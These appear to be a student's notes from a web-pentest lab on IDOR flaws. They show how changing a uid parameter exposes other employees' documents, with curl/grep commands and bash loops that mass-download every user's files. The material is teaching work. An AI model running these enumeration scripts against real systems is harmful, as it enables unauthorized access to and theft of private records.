 ## Insecure Parameters
* The exercise below is an `Employee Manager` web application that hosts employee records

![](./Screenshots/web_attacks_idor_employee_manager.jpg)

* Application assumes user is logged in as employee with user id `uid=1`
* `/documents.php`:

![](./Screenshots/web_attacks_idor_documents.jpg)

* On the documents page we see different documents which can be files uploaded by our user

```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

* Files have predictable naming pattern
	* User `uid` and the month/year
	* `static file IDOR`
* Page is setting the `uid` with a `GET` parameter in the URL as (`documents.php?uid=1`)
* If application uses this `uid` GET parameter as a direct reference to the employee records
	* We may be able to view other employees' documents by simply changing this value
	* If the back-end end of the web application `does` have a proper access control system, we will get some form of `Access Denied`
	* However, given that the web application passes as our `uid` in clear text as a direct reference, this may indicate poor web application design, leading to arbitrary access to employee records
* Try changing the `uid` to `?uid=2`
	* We don't notice any difference in the page output, as we are still getting the same list of documents, and may assume that it still returns our own documents

![](./Screenshots/web_attacks_idor_documents.jpg)

* However, `we must be attentive to the page details during any web pentest` and always keep an eye on the source code and page size
* If we look at the linked files, or if we click on them to view them, we will notice that these are indeed different files, which appear to be the documents belonging to the employee with `uid=2`

```html
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf
```

## Mass Enumeration
* We can try manually accessing other employee documents with `uid=3`, `uid=4`
* We can either use a tool like `Burp Intruder` or `ZAP Fuzzer` to retrieve all files or write a small bash script to download all files

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

* We see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line

```sh
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

* Trim the extra parts and only get the document links in the output
	* Better practice to use Regex pattern that matches strings between `/document` and `.pdf`

```sh
$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

* Simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.(pdf|txt)"); do
                wget -q $url/$link
        done
done
```

* Modified for post requests

```bash
#!/bin/bash

url="http://178.128.42.34:31087"


for i in {1..20}; do
        for link in $(curl -s -d "uid=$i" "$url/documents.php" | grep -oP "\/documents.*?.(pdf|txt)"); do
                wget -q $url/$link
        done
done
```
